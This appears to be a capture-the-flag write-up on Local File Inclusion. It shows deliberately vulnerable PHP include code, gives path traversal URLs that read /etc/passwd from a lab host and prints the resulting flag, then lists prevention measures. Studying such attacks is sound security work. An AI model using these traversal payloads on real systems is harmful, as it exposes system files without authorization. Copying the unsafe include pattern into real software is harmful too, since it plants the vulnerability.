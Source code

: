 # Local file inclusion

## What is the LFI (Local File Inclusion) vulnerablity ?

An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server. An LFI attack may lead to information disclosure, remote code execution, or even Cross-site Scripting (XSS). Typically, LFI occurs when an application uses the path to a file as input. If the application treats this input as trusted, a local file may be used in the include statement.

The following is an example of PHP code that is vulnerable to LFI.

```php
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
```

In the above example, an attacker could make the following request. It tricks the application into executing a PHP script such as a web shell that the attacker managed to upload to the web server.

http://example.com/?file=../../uploads/evil.php

In this example, the file uploaded by the attacker will be included and executed by the user that runs the web application. That would allow an attacker to run any server-side malicious code that they want.

This is a worst-case scenario. An attacker does not always have the ability to upload a malicious file to the application. Even if they did, there is no guarantee that the application will save the file on the same server where the LFI vulnerability exists. Even then, the attacker would still need to know the disk path to the uploaded file.
Directory Traversal

Even without the ability to upload and execute code, a Local File Inclusion vulnerability can be dangerous. An attacker can still perform a Directory Traversal / Path Traversal attack using an LFI vulnerability as follows.

http://example.com/?file=../../../../etc/passwd

In the above example, an attacker can get the contents of the /etc/passwd file that contains a list of users on the server. Similarly, an attacker may leverage the Directory Traversal vulnerability to access log files (for example, Apache access.log or error.log), source code, and other sensitive information. This information may then be used to advance an attack.

## Let's get the Flag !

First, let's find a page that uses query parameters: for example: [sign in](http://192.168.1.38/index.php?page=signin)

And replace query parameters with `../../../../etc/passwd`:

```
http://192.168.1.38/index.php?page=../../../../etc/passwd
```

An alert is displayed with this message:

```
> Almost.
```

Let's try to increase the path:

```
http://192.168.1.38/index.php?page=../../../../../../../etc/passwd
```

Yeahhh

```
> Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
```

---

## How to avoid that security breach ?

Here are a few ways to prevent LFI attacks:

- ID assignation – save your file paths in a secure database and give an ID for every single one, this way users only get to see their ID without viewing or altering the path
- Whitelisting – use verified and secured whitelist files and ignore everything else
- Use databases – don’t include files on a web server that can be compromised, use a database instead
- Better server instructions – make the server send download headers automatically instead of executing files in a specified directory

---

#### Sources

- [What is Local File Inclusion (LFI)?](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)
- [Local file inclusion (prevention)](https://www.neuralegion.com/blog/local-file-inclusion-lfi/)
